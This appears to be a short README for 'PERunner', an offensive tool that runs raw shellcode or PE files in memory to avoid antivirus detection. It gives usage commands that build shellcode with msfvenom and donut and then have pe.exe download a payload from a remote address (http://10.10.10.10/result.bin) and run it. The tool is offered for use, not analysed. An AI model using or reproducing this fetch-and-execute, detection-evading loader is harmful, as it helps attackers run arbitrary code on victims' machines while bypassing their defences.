 # PERunner
Runs RAW or PE file in memory, avoiding AV.
First generate RAW with shellcoding.py (Requires https://github.com/TheWover/donut in current directory). 
Example of usage:

`python3 shellcoding.py -t msf -p 'msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -f raw'`

`python3 shellcoding.py -t pe -p zzz.exe `

Next run pe.exe with -u params and path the url to result.bin

`pe.exe -u http://10.10.10.10/result.bin`
